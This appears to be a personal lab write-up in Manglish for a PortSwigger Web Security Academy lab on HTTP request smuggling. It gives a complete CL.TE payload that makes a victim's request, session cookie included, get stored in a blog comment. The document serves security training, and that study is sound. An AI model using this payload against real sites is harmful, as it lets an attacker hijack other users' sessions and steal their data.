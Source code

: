         Lab-8(Exploiting HTTP request smuggling to capture other users' requests)
-->ivide front-end transfer-encoding support chyila
-->aadyam lab open chyuka enit GET /  request eduth repeater il iduka
-->ini site il blog post und.so onnil keruka enit athil comment chyuna option und.so athil enthengilum comment chyth send chyuka
-->aa request repeater il iduka.ath POST request aan.so C.T,C.L,T.E  headers satharan cherikuna pole chyuka.enit athil session cookie, csrftoken, pine comments inte parameters okke itt onukudi test chyuka.apol 302 kitunund

```http
POST /post/comment HTTP/1.1
Host: 0a2a00a203669796c05db2d4002600de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 111
Cookie: session=jPcj7tfUxIuQ3S9T2hXbOJqpBOIYDuA2
Connection: close

csrf=lejKhAVm6TdMLlEZ3KP9yNOdrhmKVvmL&postId=8&comment=jossdfsdu&name=josuasd&email=josusd%40gmail.com&website=
```

-->ivide comment= enna parameter mattu parameters inte idakan kidkunath.so aa comment enna parameter eduth lasst aayi iduka ie website=&comment=josu. ini send chyumbozhum result 302 kitunund.so parameter marikidanalum work aakunund
-->ini enth chyanamenal ee request namuk smuggle chyanam.enit ee comment= enna parameter il aayi vere oru user enthengilum request chyumbol avante request namuk ee comment il append chyum apol ath automatic aayi comment boxil varum
-->njan paranju ivide back-end aan transfer encoding support chyunathen.so 0 itt ee request smuggle chyam
-->smuggle chyenda request kiti.ini eth genuine request il aan smuggle chyendath enn nokam. so namuk GET /   request thane edukam.enit athil cherakm :

```http
POST / HTTP/1.1
Host: 0a2a00a203669796c05db2d4002600de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 355        ---1)
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a2a00a203669796c05db2d4002600de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 810          ---2)
Cookie: session=jPcj7tfUxIuQ3S9T2hXbOJqpBOIYDuA2  ---3)
Connection: close

csrf=lejKhAVm6TdMLlEZ3KP9yNOdrhmKVvmL&postId=8&name=josuasd&email=josusd%40gmail.com&website=&comment=shajappan
```



-->ivide namuk final payload kanam. GET /   request maati POST ennaki karanam ariyalo POST request il mathrame smuggling chyan patu
-->1) mathe content-lenth ee requst full ayitula content length.front-end C.L aan support chyunath.so correct lenth kodukanam ilengil read timeout error varum
-->2)  mathae C.L nok ith correct length alla.ee lenth koduthath enthanennal namuk user il ninum append chyapeduka lenth ethra venam enn theerumanikuna request aan
-->ivide correct aayi th namal koduthale user inte session token kitu
-->3)  il ulla session ennath namude real aaya session aan.karnam namal comment iduna request aan smuggle chyan eduthath so ath oru action request aan so athil session,csrf oke undakum
-->so ini mumb chytha lab ukale pole rand pravisham send adikenda.ivide otta pravisham send adichamathi.oru pravisham send adikumbol request pokum enit ee comment enna athayath avide normal user inte request append aayi comment boxil save aakum ie , `shajappan GET / HTTP/1.1 Host:.....` enn namuk kanam